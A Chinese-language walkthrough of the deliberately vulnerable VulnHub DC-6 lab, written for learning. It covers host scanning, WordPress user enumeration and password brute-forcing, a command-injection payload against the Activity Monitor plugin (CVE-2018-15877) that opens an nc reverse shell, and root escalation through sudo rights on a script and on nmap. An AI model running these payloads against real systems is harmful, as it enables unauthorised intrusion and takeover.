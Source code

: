 # DC6-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/dc-6,315/

**Description**

DC-6 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

This isn't an overly difficult challenge so should be great for beginners.

The ultimate goal of this challenge is to get root and to read the one and only flag.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

**Technical Information**

DC-6 is a VirtualBox VM built on Debian 64 bit, but there shouldn't be any issues running it on most PCs.

I have tested this on VMWare Player, but if there are any issues running this VM in VMware, have a read through of this.

It is currently configured for Bridged Networking, however, this can be changed to suit your requirements. Networking is configured for DHCP.

Installation is simple - download it, unzip it, and then import it into VirtualBox or VMWare and away you go.

NOTE: You WILL need to edit your hosts file on your pentesting device so that it reads something like:

`192.168.0.142 wordy`

NOTE: I've used 192.168.0.142 as an example. You'll need to use your normal method to determine the IP address of the VM, and adapt accordingly.

This is VERY important.

And yes, it's another WordPress based VM (although only my second one).

**Clue**

OK, this isn't really a clue as such, but more of some "we don't want to spend five years waiting for a certain process to finish" kind of advice for those who just want to get on with the job.

`cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt` That should save you a few years. ;-)

**知识点**
- worpress 插件漏洞利用 (中期)
- 利用 nmap 提权 (后期)

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/1.png)

排除法,去掉自己、宿主机、网关, `192.168.141.140` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.140
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/2.png)

一个 SSH 一个 web,先从 web 入手

按照信息修改主机 hosts 文件

修改 kali hosts 文件
```bash
echo "192.168.141.140 wordy" >> /etc/hosts
```

访问 web,发现是个 wordpress 搭建的网站

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/3.png)

按照之前 DC2 的经验来,上 wpscan 扫他一波
```bash
wpscan --url http://wordy --enumerate u
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/4.png)

发现几个用户,尝试爆破弱口令,上了 TOP100 没爆出来,回过头来一看作者给了提示
```
gunzip rockyou.txt.gz
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt
```

估计这玩意就是钦定的字典了，爆破
```
wpscan --url http://wordy --passwords passwords.txt
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/5.png)

跑出一个 mark
```
Username: mark
Password: helpdesk01
```

登录 http://wordy/wp-login.php ,发现一个插件 activity monitor

---

# 中期-漏洞利用

之前用 wpscan 顺便扫了下漏洞,并没有可以 RCE 的,那么这里猜测可能从这个插件入手,直接搜到一个编号为 CVE-2018-15877 的相应漏洞

kali 监听
```
nc -nlvp 4444
```

burp 抓包利用
```
127.0.0.1| nc -e /bin/sh 192.168.141.134 4444
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/6.png)

成功弹回

---

# 后期-提权

升级下 shell
```
python -c 'import pty; pty.spawn("/bin/sh")'
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/7.png)

www 用户下啥也没有，tmp 空的，看了下 passwd 有几个 wordpress 一样的用户,拿 helpdesk01 测试了下几个用户都登不上去,顺便翻了下他们的家目录,mark 和 jens 都有东西

```bash
ls /home/graham
ls /home/mark
ls /home/sarah
ls /home/jens
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/8.png)

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/9.png)

可以，直接给了我 graham 账号密码,登上去,然后继续查看

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/10.png)

看样子只是个备份脚本,但是没有权限运行,暂放一边,查看下能提权的东西把
```
sudo -l
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/11.png)

巧了，这个正好可以用 jens sudo 运行,那修改这个脚本来获取 jens 的 shell 试试
```
echo "/bin/sh" >> /home/jens/backups.sh
sudo -u jens /home/jens/backups.sh
whoami
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/12.png)

切换成功,jens 下在看看有啥能提权的
```bash
sudo -l
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/13.png)

看着着熟悉的4个字母,不禁露出了猥琐的笑容
```bash
echo 'os.execute("/bin/sh")' > /tmp/root.nse
cat /tmp/root.nse
sudo nmap --script=/tmp/root.nse
whoami
cd /root
cat *
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/14.png)

提权成功,感谢靶机作者 @DCUA7
